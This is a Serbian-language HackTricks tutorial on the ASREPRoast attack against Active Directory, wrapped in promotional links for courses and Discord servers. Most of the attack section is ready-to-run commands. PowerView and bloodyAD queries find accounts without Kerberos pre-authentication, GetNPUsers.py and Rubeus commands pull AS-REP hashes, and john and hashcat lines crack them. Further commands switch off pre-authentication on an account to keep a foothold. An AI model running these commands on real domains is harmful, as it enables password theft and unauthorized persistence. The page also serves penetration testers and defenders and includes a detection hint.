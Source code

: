 # ASREPRoast

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hacking Insights**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Real-Time Hack News**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu

**Najnovije objave**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

## ASREPRoast

ASREPRoast je sigurnosni napad koji iskorišćava korisnike koji nemaju **Kerberos pre-authentication required atribut**. Osnovno, ova ranjivost omogućava napadačima da zatraže autentifikaciju za korisnika od Domain Controller-a (DC) bez potrebe za korisnikovom lozinkom. DC zatim odgovara porukom koja je šifrovana korisnikovim ključem izvedenim iz lozinke, koju napadači mogu pokušati dešifrovati offline kako bi otkrili korisnikovu lozinku.

Glavni zahtevi za ovaj napad su:
- **Nedostatak Kerberos pre-authentication-a**: Ciljni korisnici ne smeju imati ovu sigurnosnu funkciju omogućenu.
- **Povezivanje sa Domain Controller-om (DC)**: Napadačima je potreban pristup DC-u kako bi slali zahteve i primili šifrovane poruke.
- **Opcioni domenski nalog**: Imajući domenski nalog, napadači mogu efikasnije identifikovati ranjive korisnike putem LDAP upita. Bez takvog naloga, napadači moraju nagađati korisnička imena.


#### Nabrojavanje ranjivih korisnika (potrebne su domenske akreditacije)

{% code title="Korišćenje Windows-a" %}
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
{% code title="Korišćenje Linuxa" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```
{% endcode %}

#### Zahtevajte poruku AS_REP

{% code title="Korišćenje Linuxa" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% code title="Korišćenje Windowsa" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

{% hint style="warning" %}
AS-REP Roasting sa Rubeusom će generisati 4768 sa tipom enkripcije 0x17 i tipom preautentifikacije 0.
{% endhint %}

### Kriptovanje
```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt
```
### Upornost

Prisilite **preauth** da nije potreban za korisnika za kojeg imate **GenericAll** dozvole (ili dozvole za pisanje svojstava):

{% code title="Korišćenje Windowsa" %}
```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% code title="Korišćenje Linuxa" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```
{% endcode %}

## Reference

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

***

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Hakerske vesti u realnom vremenu**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu

**Najnovije najave**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
